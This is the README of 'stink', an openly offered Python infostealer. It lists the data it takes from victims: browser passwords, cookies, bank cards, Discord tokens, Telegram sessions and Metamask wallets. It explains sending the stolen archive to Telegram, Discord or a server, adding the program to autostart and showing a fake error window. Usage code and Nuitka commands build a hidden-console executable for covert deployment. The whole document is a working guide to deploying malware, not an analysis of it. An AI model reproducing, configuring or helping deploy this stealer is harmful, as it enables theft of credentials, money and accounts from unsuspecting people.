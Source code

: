 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
3. Support for browser multiprofiles.
4. Sending an archive of collected data to Telegram / Server / Discord.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.

## Example usage
### Standard
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer
from stink.enums import Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Additional parameters

- `features` - enables modules from the list. Modules can be imported from `stink.enums.Features`. Available modules:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.


- `utils` - enables the utilities from the list. Utilities can be imported from `stink.enums.Utils`. Available utilities:

  - `errors` - error output.

  - `autostart` - adding to autostart.

  - `message` - showing a fake error window.


- `senders` - launches sending methods from the list. Sending methods can be imported from `stink.enums.Senders`. Available sending methods:

  - `server` - sending to server.

  - `telegram` - sending to Telegram.

  - `discord` - sending to Discord.
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
